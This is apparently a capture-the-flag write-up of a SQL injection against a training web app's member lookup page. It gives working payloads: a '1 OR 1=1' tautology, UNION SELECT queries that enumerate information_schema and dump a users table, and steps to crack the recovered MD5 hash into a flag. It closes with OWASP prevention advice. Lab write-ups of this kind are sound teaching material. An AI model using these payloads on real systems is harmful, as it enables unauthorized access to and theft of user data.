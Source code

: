 # Vulnerability

SQL injection allow you to access and manipulate all your datas.

# Identification

During the request, we have got database error.

# Resolve

Go to http://10.11.249.210/?page=member\
Fill the form with http://10.11.249.210/?page=member\
1 OR 1=1 and submit (http://10.11.249.210/?page=member&id=1+OR+1%3D1&Submit=Submit#)\
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB\
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- users

Columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

With this cmd, we will identify the id wanted
1 UNION SELECT 1, user_id FROM users

We will parse all columns and find what we need

5 UNION SELECT concat(user_id, first_name, last_name, town, country, planet), concat(Commentaire, countersign) user_id FROM users where user_id = 5

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28

countersign->md5->lower->sha256->flag

# Prevent

- Use of Prepared Statements (with Parameterized Queries)
- Use of Properly Constructed Stored Procedures
- Allow-list Input Validation
- STRONGLY DISCOURAGED: Escaping All User Supplied Input

# Resources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html\
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection\
https://www.dcode.fr/md5-hash\
https://www.dcode.fr/sha256-hash
